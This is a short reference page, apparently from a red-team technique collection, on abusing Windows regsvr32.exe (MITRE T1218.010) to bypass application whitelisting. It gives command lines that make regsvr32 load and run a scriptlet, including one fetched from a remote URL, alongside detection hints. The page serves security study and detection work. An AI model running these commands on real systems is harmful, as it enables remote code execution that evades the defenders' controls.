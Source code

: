 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1218.010 - Regsvr32
## References
* MITRE ATT&CK -<br />[https://attack.mitre.org/techniques/T1218/010](https://attack.mitre.org/techniques/T1218/010)
* Pentest Lab: AppLocker Bypass – Regsvr32 -<br />[https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)
* Oddvar Moe's Blog: AppLocker – Case study – How insecure is it really? – Part 1 -<br />[https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/)

## Overvivew
`Regsvr32.exe`

**LOLBINs Tags**

* AWL bypass
* Execute

Used by Windows to register dlls

**Paths**

* `C:\Windows\System32\regsvr32.exe`
* `C:\Windows\SysWOW64\regsvr32.exe`

**LOLBINs Acknowledgements**

* Casey Smith - @subtee

## Detection
* regsvr32.exe getting files from Internet
* regsvr32.exe executing scriptlet files

## TTP
### AWL bypass
#### Method 1
* Execute the specified remote .SCT script with scrobj.dll.

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```

* Usecase: Execute code from remote scriptlet, bypass Application whitelisting
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 2
* Execute the specified local .SCT script with scrobj.dll.

```
regsvr32.exe /s /u /i:file.sct scrobj.dll
```

* Usecase: Execute code from scriptlet, bypass Application whitelisting
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

### Execute
#### Method 1
* Execute the specified remote .SCT script with scrobj.dll.

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```

* Usecase: Execute code from remote scriptlet, bypass Application whitelisting
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### Method 2
* Execute the specified local .SCT script with scrobj.dll.

```
regsvr32.exe /s /u /i:file.sct scrobj.dll
```

* Usecase: Execute code from scriptlet, bypass Application whitelisting
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10